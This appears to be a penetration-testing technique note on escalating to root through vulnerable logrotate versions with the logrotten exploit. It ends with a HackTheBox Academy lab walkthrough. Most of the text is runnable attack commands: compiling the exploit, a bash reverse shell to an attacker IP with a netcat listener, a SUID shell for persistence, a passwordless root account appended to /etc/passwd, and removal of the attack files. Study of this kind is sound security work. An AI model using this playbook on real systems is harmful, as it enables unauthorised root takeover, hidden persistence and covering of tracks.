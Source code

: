 ### 1. Technique Name:

Logrotate – Privilege Escalation via Log File Injection (logrotten exploit)
### 2. Summary:

`logrotate` is a utility used to manage log files by rotating, compressing, and removing logs based on criteria like size or time. When misconfigured or used with vulnerable versions (e.g., 3.8.6, 3.11.0, 3.15.0, 3.18.0), it can allow a local attacker to escalate privileges. The attacker can inject a payload into a log file that will be executed with elevated privileges when `logrotate` processes the log.
### 3. Conditions / Requirements:

- Writable access to log file processed by logrotate (e.g., `/tmp/tmp.log`)    
- `logrotate` runs as a privileged user (typically via `cron`)
- System uses `create` directive in `logrotate.conf`
- Vulnerable version of `logrotate` (<= 3.18.0)
- Ability to execute or compile custom binaries
### 4. Enumeration Steps:
#### A. Check logrotate version:

```bash
logrotate --version
```
#### B. Inspect configuration:

```bash
cat /etc/logrotate.conf
```

Look for:

```
create
compress
```
#### C. Locate logrotate.d directory and list configurations:

```bash
ls /etc/logrotate.d/
cat /etc/logrotate.d/<target-service>
```
#### D. Confirm writable log file:

```bash
ls -l /path/to/logfile
```
#### E. Check logrotate state file (for last rotation time):

```bash
sudo cat /var/lib/logrotate.status
```
### 5. Exploitation Steps:
#### A. Clone and compile logrotten exploit:

```bash
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
```
#### B. Prepare reverse shell payload:

```bash
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```
#### C. Start listener on attack machine:

```bash
nc -nlvp 9001
```
#### D. Run the exploit on a writable log file:

```bash
./logrotten -p ./payload /tmp/tmp.log
```
### 6. Post-Exploitation Tips:

- Upgrade shell:    

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- Drop SUID shell for persistence:

```bash
cp /bin/bash /tmp/rootsh
chmod +s /tmp/rootsh
```

- Add root user (optional):

```bash
echo 'eviluser::0:0::/root:/bin/bash' >> /etc/passwd
```

- Clean up:

```bash
rm logrotten payload
```
### 7. Example / Notes:
#### A. Standard Exploit Example

Log File Used:

```bash
/tmp/tmp.log
```

Payload:

```bash
bash -i >& /dev/tcp/10.10.14.2/9001 0>&1
```

Exploit Execution:

```bash
./logrotten -p ./payload /tmp/tmp.log
```

Verification:

```bash
# id
uid=0(root) gid=0(root)
```
#### B. HackTheBox Academy Example – Flag Exfiltration
#### 1. SSH into Target:

```bash
ssh htb-student@10.129.204.41
```
#### 2. Compile logrotten on the target:

```bash
cd logrotten/
gcc -o logrotten logrotten.c
chmod +x logrotten
```
#### 3. Write payload to exfiltrate flag:

```bash
echo "cat /root/flag.txt > /home/htb-student/flag.txt" > payload
```
#### 4. Trigger log rotation and run exploit:

```bash
echo test >> /home/htb-student/backups/access.log
./logrotten /home/htb-student/backups/access.log -p payload
```
#### 5. Read the exfiltrated flag:

```bash
cat /home/htb-student/flag.txt
```

